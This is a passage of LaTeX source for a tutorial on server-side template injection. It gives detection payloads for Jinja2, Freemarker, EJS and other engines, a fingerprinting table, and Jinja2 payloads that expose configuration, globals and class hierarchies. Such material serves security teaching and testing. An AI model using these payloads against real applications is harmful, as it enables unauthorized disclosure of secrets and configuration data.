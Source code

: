\documentclass{article}
\begin{document}
In this example, if an attacker provides a malicious payload like \texttt{\{\{config\}\}}, it will be evaluated by Jinja2, exposing sensitive configuration data.

\subsection{Detection of SSTI}

\subsubsection{Basic Detection Payloads}
\begin{lstlisting}[language=Python, caption=Common Detection Vectors]
# Mathematical operations
{{7*7}} or ${7*7} or <%= 7*7 %>

# String concatenation
{{'a'.upper()}} or ${'a'.toUpperCase()}

# Accessing environment
{{config}} or {{self}} or ${.version}
\end{lstlisting}

\subsection{Types of Template Engines}
Based on the detection results, you can identify the template engine:

\begin{itemize}
    \item \textbf{Jinja2/Twig:} \{\{7*7\}\} = 49, \{\{'a'.upper()\}\} = 'A'
    \item \textbf{Freemarker:} \$\{7*7\} = 49, can access Java classes
    \item \textbf{Smarty:} \{\$smarty.version\} shows version
    \item \textbf{EJS:} <\%= 7*7 \%> = 49
    \item \textbf{Pug:} \#\{7*7\} = 49
\end{itemize}

\section{Exploitation Techniques}

\subsection{Information Disclosure}
\begin{lstlisting}[language=Python, caption=Jinja2 Information Disclosure]
# List all global functions
{{self.__init__.__globals__}}

# Get configuration
{{config}}

# Get request object
{{request}}

# List classes
{{''.__class__.__mro__}}
\end{lstlisting}
\end{document}
